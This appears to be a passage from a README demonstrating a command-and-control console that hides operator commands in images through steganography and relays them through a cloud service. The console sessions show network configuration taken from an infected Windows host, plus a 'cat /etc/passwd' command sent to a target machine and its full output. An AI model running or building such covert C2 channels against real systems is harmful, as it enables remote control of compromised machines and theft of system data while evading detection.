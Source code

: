 - Lets get the results!

```
C&C console > retrieve 97ee81e0647a4f248ac47c68e8b25b88
97ee81e0647a4f248ac47c68e8b25b88: 
Configuracin IP de Windows


Adaptador de Ethernet Conexin de rea local:

   Sufijo DNS especfico para la conexin. . : Home
   Vnculo: direccin IPv6 local. . . : fe30::2c37:4432:4551:c71a%11
   Direccin IPv4. . . . . . . . . . . . . . : 192.168.66.25
   Mscara de subred . . . . . . . . . . . . : 255.255.255.0
   Puerta de enlace predeterminada . . . . . : 192.168.66.1

Adaptador de tnel isatap.Home:

   Estado de los medios. . . . . . . . . . . : medios desconectados
   Sufijo DNS especfico para la conexin. . : Home

Adaptador de tnel Conexin de rea local*:

   Estado de los medios. . . . . . . . . . . : medios desconectados
   Sufijo DNS especfico para la conexin. . : 

C&C console > 

```


```
C&C console > cmd 04:00:72:3F:D6:98 cat /etc/passwd  
[+] Downloading image from Cloud Service...
[+] Uploaded image to Cloud Service
[+] Steganography applied, image saved
[+] Sent command cat /etc/passwd with jobid: 631f4ee7328244b8b462876e1f8dd753
C&C console > 
```

- Lets get the results!

```
C&C console > retrieve 631f4ee7328244b8b462876e1f8dd753
631f4ee7328244b8b462876e1f8dd753: 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
```